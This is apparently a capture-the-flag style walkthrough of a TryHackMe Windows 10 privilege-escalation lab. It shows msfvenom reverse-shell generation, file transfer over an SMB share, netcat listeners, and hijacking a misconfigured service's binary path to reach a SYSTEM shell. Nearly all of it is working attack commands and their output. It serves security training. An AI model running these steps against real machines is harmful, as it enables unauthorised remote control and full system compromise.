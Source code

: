 # Room
https://tryhackme.com/room/windows10privesc

# Task 1 - Deploy VM and connect using RDP
I use Remmina for RDP: https://remmina.org/

# Task 2 - Generate a reverse shell exe
* Create and transfer reverse.exe to the target
    ```
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=a.b.c.d LPORT=1234 -f exe -o reverse.exe

    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 460 bytes
    Final size of exe file: 7168 bytes
    Saved as: reverse.exe
    ```
* Start local SMB server to host the file
    ```
    sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py transfer .

    Impacket v0.9.23.dev1+20201209.133255.ac307704 - Copyright 2020 SecureAuth Corporation

    [*] Config file parsed
    [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
    [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
    [*] Config file parsed
    [*] Config file parsed
    [*] Config file parsed
    ```
* From the target, copy the file
    ```
    PS C:\users\user> cd \privesc
    PS C:\privesc> copy \\a.b.c.d\transfer\reverse.exe .
    PS C:\privesc> dir reverse.exe


        Directory: C:\privesc


    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----        1/25/2021   7:17 AM           7168 reverse.exe    
    ```
* Setup a local listener
    ```
    nc -nvlp 1234
    listening on [any] 1234 ...
    ```
* Execute reverse.exe on the target
    ```
    PS C:\privesc> .\reverse.exe
    PS C:\privesc>    
    ```
* Check listener
    ```
    nc -nvlp 1234
    listening on [any] 1234 ...
    connect to [a.b.c.d] from (UNKNOWN) [10.10.153.222] 49824
    Microsoft Windows [Version 10.0.17763.737]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\privesc>
    ```
# Task 3 - Service Exploits - Insecure Service Permissions
Use AccessChk to look at permissions

https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk

* Check permissions for the user "user" to the service "daclsvc"
    ```
    C:\privesc>accesschk.exe /accepteula -uwcqv user daclsvc
    accesschk.exe /accepteula -uwcqv user daclsvc
    RW daclsvc
            SERVICE_QUERY_STATUS
            SERVICE_QUERY_CONFIG
            SERVICE_CHANGE_CONFIG      <----------------------
            SERVICE_INTERROGATE
            SERVICE_ENUMERATE_DEPENDENTS
            SERVICE_START
            SERVICE_STOP
            READ_CONTROL
    ```
* Query the daclsvc
    ```
    C:\privesc>sc qc daclsvc
    sc qc daclsvc
    [SC] QueryServiceConfig SUCCESS

    SERVICE_NAME: daclsvc
            TYPE               : 10  WIN32_OWN_PROCESS 
            START_TYPE         : 3   DEMAND_START
            ERROR_CONTROL      : 1   NORMAL
            BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
            LOAD_ORDER_GROUP   : 
            TAG                : 0
            DISPLAY_NAME       : DACL Service
            DEPENDENCIES       : 
            SERVICE_START_NAME : LocalSystem
    ```
* Because we are allowed the permission SERVICE_CHANGE_CONFIG, we can change things about the service, here we will change the BINARY_PATH_NAME to that of our reverse.exe program
    ```
    C:\privesc>sc config daclsvc binpath= "\"C:\privesc\reverse.exe\""
    sc config daclsvc binpath= "\"C:\privesc\reverse.exe\""
    [SC] ChangeServiceConfig SUCCESS
    ```
* Setup local listener
    ```
    nc -nvlp 1234
    listening on [any] 1234 ...    
    ```
* Start the daclsvc service to execute the new BINARY_PATH_NAME
    ```
    C:\Users\user>net start daclsvc
    ```
* Check listener
    ```
    nc -nvlp 1234
    listening on [any] 1234 ...
    connect to [a.b.c.d] from (UNKNOWN) [10.10.153.222] 49873
    Microsoft Windows [Version 10.0.17763.737]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    whoami
    nt authority\system

    C:\Windows\system32>
    ```